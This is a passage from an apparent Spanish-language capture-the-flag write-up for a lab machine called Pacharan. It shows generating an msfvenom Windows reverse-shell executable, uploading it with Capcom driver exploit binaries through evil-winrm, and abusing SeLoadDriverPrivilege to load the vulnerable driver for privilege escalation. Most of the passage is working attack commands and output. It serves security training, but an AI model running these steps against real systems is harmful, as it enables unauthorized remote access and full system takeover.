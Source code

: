 Ahora, debemos crear una **Reverse Shell** con **msfvenom**:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=Tu_IP LPORT=443 -f exe -o revShell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: revShell.exe
```

Con esto listo, vamos a cargar todos los archivos, que en total serían 4, a nuestra sesión de **evil-winrm** con el comando **upload**:
```batch
*Evil-WinRM* PS C:\> mkdir Temp
*Evil-WinRM* PS C:\> cd Temp
*Evil-WinRM* PS C:\Temp> upload SeLoadDriverPrivilege-JoshMorrison99/LoadDriver.exe                                        
Info: Uploading /../TheHackersLabs/Pacharan/content/SeLoadDriverPrivilege-JoshMorrison99/LoadDriver.exe to C:\Temp\LoadDriver.exe
Data: 20480 bytes of 20480 bytes copied
Info: Upload successful!
.
*Evil-WinRM* PS C:\Temp> upload SeLoadDriverPrivilege-JoshMorrison99/ExploitCapcom.exe
Info: Uploading /../TheHackersLabs/Pacharan/content/SeLoadDriverPrivilege-JoshMorrison99/ExploitCapcom.exe to C:\Temp\ExploitCapcom.exe
Data: 357716 bytes of 357716 bytes copied
Info: Upload successful!
.
*Evil-WinRM* PS C:\Temp> upload SeLoadDriverPrivilege-JoshMorrison99/Capcom.sys
Info: Uploading /../TheHackersLabs/Pacharan/content/SeLoadDriverPrivilege-JoshMorrison99/Capcom.sys to C:\Temp\Capcom.sys
Data: 14100 bytes of 14100 bytes copied
Info: Upload successful!
.
*Evil-WinRM* PS C:\Temp> upload revShell.exe
Info: Uploading /../TheHackersLabs/Pacharan/content/revShell.exe to C:\Temp\revShell.exe
Data: 9556 bytes of 9556 bytes copied
Info: Upload successful!
```

De acuerdo a las instrucciones, debemos invocar el binario **LoadDriver.exe** junto al archivo **Capcom.sys** y el resultado nos debe dar `NTSTATUS: 00000000, WinError: 0`:
```batch
*Evil-WinRM* PS C:\Temp> .\LoadDriver.exe System\CurrentControlSet\MyService C:\Temp\Capcom.sys
RegCreateKeyEx failed: 0x0
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-3046175042-3013395696-775018414-1108\System\CurrentControlSet\MyService
NTSTATUS: 00000000, WinError: 0
```
Parece que funciono.

